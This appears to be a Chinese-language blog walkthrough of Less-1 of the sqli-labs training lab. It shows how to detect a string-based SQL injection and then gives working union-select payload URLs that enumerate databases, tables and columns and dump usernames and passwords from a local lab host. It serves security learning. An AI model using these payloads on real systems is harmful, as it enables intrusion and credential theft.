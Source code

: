 ## Less-1

### 分析

输入 `1'`，报错结果为

![1566560719007]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566560719007.png)

即错误发生在语句 `'1'' LIMIT 0,1`附近。可以看出由于我输入的单引号导致字符串未闭合，说明存在字符型注入。另外，错误信息中还爆出了 `LIMIT 0,1`，说明该查询只显示第一行数据

猜测源语句为 `id='$id'`

### 利用方法

1. 使用单引号闭合，如 `1' and '1'='1`
2. 使用注释，如 `1' --%20`

### 注入步骤

用`order by`判断字段数，使用语句 `http://192.168.130.128:8080/Less-1/?id=1' order by 4 --%20`。解出字段数为3

![1566562464542]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566562464542.png)

输入一个不存在的id，用 `union select`查看显示的是哪几个字段，使用语句 `http://192.168.130.128:8080/Less-1/?id=-1' union select 1,2,3 --%20`

![1566563085103]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566563085103.png)

使用 `database()`查看当前查询数据库，语句 `http://192.168.130.128:8080/Less-1/?id=-1' union select 1,database(),3 --%20`

![1566563183015]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566563183015.png)

查看数据库中存在的库，语句 `http://192.168.130.128:8080/Less-1/?id=-1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --%20`

![1566563288631]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566563288631.png)

查看目标库`security`中存在的表，语句 `http://192.168.130.128:8080/Less-1/?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),3 --%20`

![1566563388406]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566563388406.png)

查看目标表`users`中存在哪些字段，语句 `http://192.168.130.128:8080/Less-1/?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name = 'users'),3 --%20`

![1566563481503]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566563481503.png)

查看`username`和`password`，语句 `http://192.168.130.128:8080/Less-1/?id=-1' union select 1,(select group_concat(username) from security.users),(select group_concat(password) from security.users) --%20`

![1566563590793]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566563590793.png)
